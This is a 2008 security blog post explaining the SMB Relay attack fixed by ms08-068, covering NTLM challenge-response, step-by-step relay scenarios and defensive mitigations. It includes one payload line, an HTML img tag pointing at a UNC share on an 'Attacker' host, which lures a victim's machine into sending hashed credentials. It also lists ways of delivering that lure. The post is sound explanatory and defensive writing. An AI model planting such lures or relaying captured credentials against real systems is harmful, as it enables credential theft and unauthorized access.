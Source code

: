 ```yaml
---
id: 110
title: 'ms08-068 &#8212; Preventing SMBRelay Attacks'
date: '2008-11-12T12:38:29-05:00'
author: ron
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=110'
permalink: /2008/ms08-068-preventing-smbrelay-attacks
categories:
    - hacking
    - smb
---
```


Microsoft released ms08-068 this week, which fixes a vulnerability that's been present and documented since 2001. I'm going to write a quick overview of it here, although you'll probably get a better one by reading <a href='http://blog.metasploit.com/2008/11/ms08-067-metasploit-and-smb-relay.html'>The Metasploit Blog</a>. 
<!--more-->
Keep in mind that there is a lot of fun stuff that can be done with the SMB protocol. I'm going to talk about a few different design flaws right now, and point out exactly what ms08-068 patches. Hang on, though, this is going to get somewhat technical. The payoff, however, is that this is incredibly interesting stuff, and I'm happy to clear up any technical confusion. Just leave me a comment or an email! 

I have talked about how <a href='http://www.skullsecurity.org/blog/?p=34'>Lanman and NTLM</a> work (or fail to work) in the past, so I'll assume you've read that and just post a quick overview here. Basically, Lanman and NTLM will hash your password using their respective algorithms (and store the hashes on the system), then hash it again based on the server's 8-byte challenge. This second hash is the same for Lanman and NTLM -- it takes the hash already generated, splits it into three 7-byte chunks (padding it to 21 bytes), and encrypting the server challenge with each of those chunks. If an attacker already has access to the Lanman and NTLM hashes, then the game has already been won (the hashes can be directly used to log in). 

The primary advantage to having a server challenge is to prevent pre-computed attacks (that is, it provides salt-like value to prevent rainbow tables-style precomputation attacks against the algorithm). Naturally, a malicious server can send a known challenge and generate tables based on that. This type of attack has been fixed in NTLMv2 (since the client provides part of the randomness). 

A SMB Relay attack is a type of man-in-the-middle attack where the attacker asks the victim to authenticate to a machine controlled by the attacker, then relays the credentials to the target. The attacker forwards the authentication information both ways, giving him access. Here are the players in this scenario:
<ul>
<li>The <b>attacker</b> is the person trying to break into the target</li>
<li>The <b>victim</b> is the person who has the credentials</li>
<li>The <b>target</b> is the system the attacker wants access to, and that the victim has credentials for</li>
</ul>

And here's the scenario (see the image at the right for a diagram):
<img src='/blogdata/ms08-068-1.png' style='float: right;' />
<ol>
<li>Attacker tricks the victim into connecting to him; this is easy, I'll explain how later</li>
<li>Attacker establishes connection to the target, receives the 8-byte challenge</li>
<li>Attacker sends the 8-byte challenge to victim</li>
<li>Victim responds to the attacker with the password hash</li>
<li>Attacker responds to the target's challenge with the victim's hash</li>
<li>Target grants access to attacker</li>
</ol>

In the case of Metasploit, the attacker goes on to upload and execute shellcode, but that process isn't important, and it's discussed on the Metasploit blog posting. 

Now, as an attacker, we have two problems: the victim needs to initiate a connection to the attacker, and the victim needs to have access to the target. 

The first problem is easy to solve -- to initiate a session, send the user a link that goes to the attacker's machine. For example, send them to a Web site containing the following code:
<pre>&lt;img src="\\Attacker\SHARE\file.jpg"&gt;</pre>

Their browser will attempt to connect to a share on the attacker called "SHARE", during which a session will be established. The victim's machine will automatically send the current credentials, hashed with whatever challenge is sent by the attacker (naturally, for the attack, this is the target's challenge). This can be delivered to them through an email link, through a stored cross-site scripting attack, by vandalizing a site they frequent, redirecting them with DNS poisoning, ARP spoofing, <a href='http://www.skullsecurity.org/blog/?p=6'>NetBIOS poisoning</a>, and any number of other ways. Suffice to say, it's pretty easy to trick the victim into connecting to the attacker. 


The second problem is that the victim needs to have access to the target. This one is slightly more difficult, but it can happen in a number of ways:
<ul>
<li>In a domain scenario, the user's domain account may have access to multiple machines, including the target</li>
<li>In other scenarios, users are well known to synchronize their password between machines. The target may have the same password as the victim, which would make the attack work</li>
<li>The target may be the <i>same physical machine as the victim</i></li>
</ul>

That third point is the interesting one -- this can be used to exploit the computer itself! So, in that scenario, here are the modified steps (see the image at the right, although I think it's probably more confusing :) ):
<img src='/blogdata/ms08-068-2.png' style='float: right;' />
<ol>
<li>Attacker tricks the victim into connecting to him</li>
<li>Attacker establishes connection back to the victim, receives the 8-byte challenge</li>
<li>Attacker sends the victim's 8-byte back</li>
<li>Victim responds to the attacker with the password hash that'll give the attacker access to the victim's own computer</li>
<li>Attacker responds to the victim's challenge with the victim's hash</li>
<li>Victim grants access to attacker</li>
</ol>

Hopefully that isn't too confusing. What it essentially means is that the victim will grant access to the attacker using its own credentials. 

And this particular attack is what ms08-068 patches! 

To put it another way: ms08-068 patches an attack (discovered in 2001) where a victim is tricked into giving an attacker access to connect to itself. 

<h2>Mitigation</h2>
I talked a lot about vulnerabilities in the SMB protocol. Unfortunately, ms08-068 only fixes one of them. The issue is that the others are design flaws and can't be fixed without breaking clients. That being said, even though Microsoft can't fix them, you can fix them yourself, more or less, at the cost of potentially breaking clients (these can be done with local/domain security policies or registry hacks; search for them to find information):
<ul>
<li>Enable (and require) NTLMv2 authentication -- this will prevent pre-computed attacks, because the client provides part of the randomness</li>
<li>Enable (and require) message signing for both clients and servers -- this will prevent relay attacks</li>
<li>Install ms08-068 -- this will prevent a specific subset of relay attacks, where it's relayed back to itself</li>
</ul>

Hope that helps! 

And, as usual, if you have any questions feel free to track me down. 

Ron

